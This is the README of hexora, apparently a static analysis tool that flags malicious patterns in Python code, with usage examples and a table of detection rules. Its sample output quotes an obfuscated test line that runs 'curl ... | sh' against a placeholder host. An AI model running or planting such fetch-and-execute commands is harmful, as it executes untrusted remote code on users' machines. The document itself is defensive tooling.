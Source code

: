 # hexora

Hexora is a static analysis tool designed to detect malicious and harmful patterns in Python code.

It can be used to:

* Audit of project dependencies to find possible supply chain attacks.
* Detect malicious scripts found on various platforms (e.g. pastebin, GitHub, open directories).
* Analysis of IoC files from past security incidents.
* Audit new packages uploaded to PyPi.

<img width="600" alt="Hexora example" src="docs/example.gif">


# Examples

For output examples, please see [docs/examples.md](docs/examples.md) file.

# Installation

## Using Python

Requires Python 3.9+.

```bash
pip install hexora
```

Using uv:
```bash
uv tool install hexora
```

# Usage


```bash
hexora --help
```

## Audit single file

```bash 
>  hexora audit test.py

warning[HX2000]: Reading from the clipboard can be used to exfiltrate sensitive data.
  ┌─ resources/test/test.py:3:8
  │
1 │ import pyperclip
2 │
3 │ data = pyperclip.paste()
  │        ^^^^^^^^^^^^^^^^^ HX2000
  │
  = Confidence: High
    Help: Clipboard access can be used to exfiltrate sensitive data such as passwords and keys.
    
warning[HX3000]: Possible execution of unwanted code
   ┌─ resources/test/test.py:20:1
   │
19 │ (_ceil, _random, Math,), Run, (Floor, _frame, _divide) = (exec, str, tuple), map, (ord, globals, eval)
20 │ _ceil("import subprocess;subprocess.call(['curl -fsSL https://example.com/b.sh | sh'])")
   │ ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ HX3000
   │
```


## Audit directory

```bash
hexora audit --output-format terminal resources/test/
```


## Audit packages from virtual environment

```bash
hexora audit --exclude HX5020,HX5030,HX5040,HX5050,HX5060 --min-confidence high .venv/lib/python3.11/site-packages/ 
```
Where `python3.11` is the version of the Python in virtual environment.



## Usage in Python

```python
>>> import hexora
>>> results = hexora.audit_path("/Projects/hexora/resources/test/")
>>> len(results)
15
>>> results[0]
{'items': [{'confidence': 'low',
            'description': 'pyperclip can be used to copy and paste data from '
                           'the clipboard.',
            'label': 'pyperclip',
            'location': (7, 16),
            'rule': 'HX5010'},
           {'confidence': 'high',
            'description': 'Reading from the clipboard can be used to '
                           'exfiltrate sensitive data.',
            'label': 'pyperclip.paste',
            'location': (25, 42),
            'rule': 'HX2000'}],
 'path': '/Projects/hexora/resources/test/clipboard_01.py'}
>>> # Single file audit
>>> result = hexora.audit_file("/Projects/hexora/resources/test/clipboard_01.py")
>>> ...
 ```

## Available rules

New rules are added regularly.

Right now, the following rules are available:
| Code | Name | Description |
|---|---|---|
| HX1000 | AppEnumeration | Suspicious application enumeration. |
| HX1010 | BrowserEnumeration | Suspicious browser enumeration (apps, cookies, history, etc.). |
| HX1020 | PathEnumeration | Suspicious path enumeration. |
| HX2000 | ClipboardRead | Reading from the clipboard. |
| HX2010 | EnvAccess | Access to a sensitive environment variable. |
| HX3000 | CodeExec | Possible code execution. |
| HX3010 | ShellExec | Execution of a shell command. |
| HX3020 | DunderShellExec | Execution of a shell command via `__import__`. |
| HX3030 | DunderCodeExec | Execution of code via `__import__`. |
| HX3040 | DLLInjection | Possible DLL injection. |
| HX4000 | ObfuscateShellExec | Execution of an obfuscated shell command. |
| HX4010 | ObfuscatedCodeExec | Execution of obfuscated code. |
| HX4020 | ObfuscatedDunderShellExec | Execution of an obfuscated shell command via `__import__`. |
| HX4030 | ObfuscatedDunderCodeExec | Execution of obfuscated code via `__import__`. |
| HX5000 | DunderImport | Suspicious use of `__import__`. |
| HX5010 | SuspiciousImport | Suspicious import. |
| HX5020 | CtypesImport | Suspicious ctypes import. |
| HX5030 | PickleImport | Suspicious pickle import. |
| HX5040 | StructImport | Suspicious struct import. |
| HX5050 | SocketImport | Suspicious socket import. |
| HX5060 | MarshalImport | Suspicious marshal import. |
| HX6000 | Base64String | Long Base64-encoded string detected; possible code obfuscation. |
| HX6010 | HexedLiterals | List of hex-encoded literals detected; possible payload. |
| HX6020 | HexedString | Long hex-encoded string detected; possible payload. |
| HX6030 | IntLiterals | Large list of integer literals detected; possible code obfuscation. |
| HX6040 | CVEInLiteral | Literal contains a CVE identifier. |
| HX6050 | SuspiciousLiteral | Suspicious literal detected; possible data enumeration. |
| HX6060 | PathTraversal | Suspicious path traversal. |
| HX7000 | SuspiciousFunctionName | Suspicious function name. |
| HX7010 | SuspiciousParameterName | Suspicious parameter name. |
| HX7020 | SuspiciousVariable | Suspicious variable name. |
| HX8000 | BinaryDownload | Suspicious binary download. |


## Credits

For parsing, we use AST parser from [ruff](https://github.com/astral-sh/ruff/tree/main) library.